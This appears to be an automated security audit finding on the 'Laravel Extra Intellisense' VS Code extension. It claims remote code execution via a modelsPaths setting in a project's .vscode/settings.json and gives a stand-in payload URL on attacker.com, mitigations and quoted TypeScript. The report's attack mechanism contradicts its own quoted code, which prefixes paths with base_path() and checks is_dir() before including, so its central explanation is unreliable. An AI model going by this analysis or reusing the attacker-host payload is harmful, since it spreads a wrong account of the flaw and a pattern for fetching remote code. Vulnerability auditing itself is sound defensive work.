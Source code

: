 ## Combined Vulnerability List

### Vulnerability 1: Code Injection via `modelsPaths` Configuration
    * **Vulnerability Name:** Code Injection via `modelsPaths` Configuration
    * **Description:**
        1. Attacker creates a malicious Laravel project and includes a `.vscode/settings.json` file.
        2. In `.vscode/settings.json`, the attacker sets `LaravelExtraIntellisense.modelsPaths` to an array containing a URL pointing to a malicious PHP file hosted on an attacker-controlled server (e.g., `["//attacker.com/malicious.php"]`).
        3. The victim opens the malicious Laravel project in VS Code with the "Laravel Extra Intellisense" extension installed and activated.
        4. When the extension initializes, specifically when `EloquentProvider.loadModels()` is executed, it constructs a PHP script. This script includes an `include_once` statement that uses the paths defined in `LaravelExtraIntellisense.modelsPaths` setting.
        5. The extension executes this PHP script using the `runLaravel` helper function.
        6. The `include_once` statement in the executed PHP script attempts to include and execute the malicious PHP file from the URL specified in `LaravelExtraIntellisense.modelsPaths`.
        7. The PHP code from the attacker's server is executed on the victim's machine within the context of the VS Code extension, leading to Remote Code Execution.
    * **Impact:** Remote Code Execution (RCE). An attacker can execute arbitrary code on the victim's machine simply by the victim opening a malicious Laravel project in VS Code with the vulnerable extension installed.
    * **Vulnerability Rank:** Critical
    * **Currently Implemented Mitigations:** None. The extension directly uses the paths provided in the `modelsPaths` configuration without any validation or sanitization.
    * **Missing Mitigations:**
        - **Input Sanitization and Validation:** The extension must sanitize and validate the paths provided in the `LaravelExtraIntellisense.modelsPaths` configuration. It should ensure that the paths are valid, point to local directories within the workspace, and prevent the use of external URLs or absolute paths outside the workspace.
        - **Secure Path Handling:** Avoid using `include_once` or similar functions with user-provided paths directly without strict validation. If dynamic inclusion is necessary, implement robust path sanitization and validation to prevent Local File Inclusion and Remote File Inclusion vulnerabilities.
    * **Preconditions:**
        - The victim must have the "Laravel Extra Intellisense" extension for VS Code installed and activated.
        - The victim must open a malicious Laravel project in VS Code that is provided by the attacker.
        - The attacker must be able to create and include a `.vscode/settings.json` file in the malicious project to configure the `LaravelExtraIntellisense.modelsPaths` setting.
    * **Source Code Analysis:**
        ```typescript
        // File: ..\vscode-laravel-extra-intellisense\src\EloquentProvider.ts
        // Function: loadModels

        loadModels() {
            var self = this;
            try {
                Helpers.runLaravel(
                    "foreach (['" + vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models']).join('\', \'') + "'] as $modelPath) {" +
                    "   if (is_dir(base_path($modelPath))) {" +
                    "      foreach (scandir(base_path($modelPath)) as $sourceFile) {" +
                    "         if (substr($sourceFile, -4) == '.php' && is_file(base_path(\"$modelPath/$sourceFile\"))) {" +
                    "             include_once base_path(\"$modelPath/$sourceFile\");" + // Vulnerable line: User-controlled path in include_once
                    "         }" +
                    "      }" +
                    "   }" +
                    "}" +
                    "..."
                ).then(function (result) {
